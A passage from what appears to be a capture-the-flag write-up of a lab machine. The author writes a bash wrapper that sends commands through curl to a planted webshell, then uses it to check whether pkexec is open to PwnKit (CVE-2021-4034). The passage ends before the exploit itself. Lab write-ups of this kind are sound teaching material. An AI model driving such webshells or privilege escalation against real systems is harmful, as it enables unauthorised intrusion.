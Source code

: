 I want a script to more easily interact with the webshell, so I’ll write a quick curl command and wrap that into a `bash` script to run easily:
~~~
    #!/bin/bash
    
    curl -d "cmd=$1" -s 'http://pressed.htb/index.php/2022/01/28/hello-world/' |
            awk '/<\/table>/{flag=1;next}/<p><\/p>/{flag=0}flag' |
            sed 's/&#8211;/--/g' | sed 's/&#8212;/---/g' |
            head -n -3
~~~

Here’s the [process for making that](https://www.youtube.com/watch?v=WmQFRNphbps):

Shell as root
-------------

### Enumeration

#### Connectivity

When all my attempts to get a reverse shell failed, I turned back to just trying to connect back to my host from Pressed.

There doesn’t seem to be any way to connect back. `curl` and `nc` both just hang trying to connect back. Even `ping` failed:
~~~
    [email protected]$ ./webshell.sh 'ping -c 1 10.10.14.6'
    PING 10.10.14.6 (10.10.14.6) 56(84) bytes of data.
    
    --- 10.10.14.6 ping statistics ---
    1 packets transmitted, 0 received, 100% packet loss, time 0ms
~~~

Looks like I’ll need to enumerate the box using the webshell.

#### PwnKit

I know that UHC likes to show off the current trending vulnerabilities, and [PwnKit](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034) (CVE-2021-4034) is certainly one of those. Unfortunately, when `pkexec` was patched for PwnKit, they didn’t change the version number, so there’s no way to tell from the version if it it patched or not. However, I can look at timestamps:
~~~
    [email protected]$ ./webshell.sh 'which pkexec'
    /usr/bin/pkexec
    [email protected]$ ./webshell.sh 'ls -l /usr/bin/pkexec'
    -rwsr-xr-x 1 root root 31032 Jul 14  2021 /usr/bin/pkexec
 ~~~   

If this binary was last modified last July, then it’s very unlikely that it’s patched in early 2022.

### PwnKit Exploit

#### POC Exploit
